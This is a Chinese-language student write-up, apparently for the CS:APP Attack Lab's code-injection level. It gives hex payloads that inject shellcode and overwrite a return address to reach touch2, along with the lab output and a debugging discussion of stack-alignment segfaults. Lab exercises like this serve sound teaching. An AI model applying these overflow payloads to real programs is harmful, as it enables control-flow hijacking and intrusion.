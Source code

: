 ```
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa, %rdi 这里就是address1 */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* match 40 */ 
78 dc 61 55 00 00 00 00 /* 修改原先返回地址，前往address 1 */
ec 17 40 00 00 00 00 00 /* touch2 */
```

这个方法直接！执行顺序7->1->2->8行，先执行我们的注入代码，然后再ret到touch2的地址。然而我的输出为：

```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault! # why？
Better luck next time
FAIL: Would have posted the following:
··· # 被我省略了
```

可见我们成功进入了touch2并传入了正确的参数，但是产生了segmentation fault。是破坏了前面的栈帧？但是我又不返回调用者的栈帧了呀。我单步调试感觉是在call server的过程中出现了问题？是%rsp变量比正常高了八字节所以出了问题吗？

**2）法二（fail）**

```
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa, %rdi 这里就是address1 */
48 c7 c4 98 dc 61 55 /* movq $0x5561dc98,%rsp */
c3 /* ret */
00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ec 17 40 00 00 00 00 00 /* touch2 */
78 dc 61 55 00 00 00 00 /* 前往address 1 */
```

执行顺序：7->1->2->3->6，但是产生同样的segmentation fault：

```bash
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
Ouch!: You caused a segmentation fault! # why？
Better luck next time
FAIL: Would have posted the following:
··· # 被我省略了
```

这里是%rsp比正常低了八字节。莫非问题出在这？

**2）修改后的法二（correct）**

针对%rsp变量我写了这样的汇编准备注入：

```assembly
movq    $0x59b997fa, %rdi
movq    $0x5561dca0, %r11
movq    $0x4017ec, (%r11)
movq    %r11, %rsp
ret

```
